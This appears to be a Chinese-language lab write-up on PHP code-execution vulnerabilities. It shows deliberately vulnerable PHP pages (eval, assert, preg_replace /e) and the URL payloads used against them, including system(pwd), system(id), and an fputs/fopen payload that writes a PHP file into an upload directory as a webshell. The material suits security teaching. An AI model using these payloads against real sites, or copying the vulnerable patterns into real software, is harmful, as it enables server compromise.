 # 代码执行漏洞

应用需要调用系统函数执行命令时，当用户可以控制输入的参数，则就可能存在代码执行漏洞。

各语言相关函数：

* PHP：eval()、assert()、preg_replace()

* python：exec()、system()
* JAVA：没有类似于前面两者的函数，但是有反射机制，并且有基于反射机制的表达式引擎，如：0GNL、SpEL、MVEL等。

## 示例

来到测试页面进行测试，可以看到在传参的时候，传入了两个参数，其中`m_print()`，是否意味着这是一个函数？

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823083717.png)

那么我们尝试将参数修改为`phpinfo()`看看。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823084028.png)

并且继续尝试执行php的其他系统调用函数看看结果

```
?a=assert&b=eval(pwd)
```

发现浏览器并没有任何输出，很奇怪，那就查看一下源码。

```
<?php
function m_print(){
        echo '这是一个页面';
}
$_GET['a']($_GET['b']);
?>
```

按照代码可以得到的最终执行的代码

```
assert(eval(pwd))
```

而下面这个却可以执行成功。

```
?a=assert&b=system(pwd)
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823205007.png)

暂时还不明所以，先继续测其他漏洞。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823210541.png)

本来是代码执行漏洞的，看了下源码，发现也可以搞个xss攻击（手动😂）。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823210407.png)

回归主题，继续尝试构造代码执行的payload。

```
http://www.webtester.com/code/code02.php?data=system(id)
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823211215.png)

发现并没有出现我们期待的结果，再次查看源码

```
<?php
$data = isset($_GET['data'])?$_GET['data']:'这是一个eval漏洞页面';
@eval($ret = $data);
echo $ret;
?>
```

> 吐槽一刻：真有人能把代码写成这样的吗？

然后发现添加分号`;`产生一个截断之后，就成功了。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823212038.png)

也可以通过代码执行漏洞写入shell脚本文件，先确定路径和文件。

```
$ ll ../upload | grep shell*
-rw-r--r--  1 www-data www-data    18  4月  6  2019 shell.php
```

构造payload

```
?data=fputs(fopen("../upload/shell2.php","a"),"<?php phpinfo();?>");
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823214828.png)

到服务器中查看执行结果

```
$ ll ../upload | grep shell*
-rw-r--r--  1 www-data www-data    18  8月 23 21:48 shell2.php
-rw-r--r--  1 www-data www-data    18  4月  6  2019 shell.php
```

访问页面看看

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823215130.png)

继续下一个页面进行测试

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823213410.png)

发现是把输入的内容输出到了URL上，查看源码。

```
<?php
$data = $_GET['data'];
preg_replace('/<data>(.*)<\/data>/e','$ret ="\\1";',$data);
?>
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823213938.png)

